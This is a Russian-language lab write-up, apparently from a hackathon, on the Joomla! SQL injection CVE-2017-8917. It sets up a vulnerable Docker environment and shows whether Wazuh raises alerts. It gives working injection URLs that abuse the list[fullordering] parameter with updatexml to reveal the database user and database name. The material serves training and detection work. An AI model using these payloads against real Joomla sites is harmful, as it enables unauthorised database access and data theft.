 # CVE-2017-8917

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2017-8917](https://nvd.nist.gov/vuln/detail/CVE-2017-8917)
* [https://developer.joomla.org/security-centre/692-20170501-core-sql-injection.html](https://developer.joomla.org/security-centre/692-20170501-core-sql-injection.html)
* [https://www.programmersought.com/article/11485914091/](https://www.programmersought.com/article/11485914091/)

Joomla! — система управления содержимым (CMS), написанная на языках PHP и JavaScript, использующая в качестве хранилища базы данных СУБД MySQL или другие стандартные промышленные реляционные СУБД.

Уязвимость SQL-инъекций в Joomla! 3.7.x до версии 3.7.1 позволяет злоумышленникам выполнять произвольные SQL-команды через неопределенные векторы.

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/joomla/CVE-2017-8917

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8080 будет доступна домашняя страница Joomla!

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Для реализации уязвимости перейдите по данной ссылке, перед этим заменив "ваш-ip" на ip машины с уязвимой средой:

```
http://your-ip:8080/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)
```

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Также вы можете узнать название базы данных, заменив "user" на "database" в ссылке

```
http://your-ip:8080/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,database()),1)
```

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh ([https://ваш-ip/app/wazuh](https://xn---ip-5cdj7k/app/wazuh)) мы можем увидеть соответствующие алерты об эксплуатации SQL-инъекции Joomla!

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>
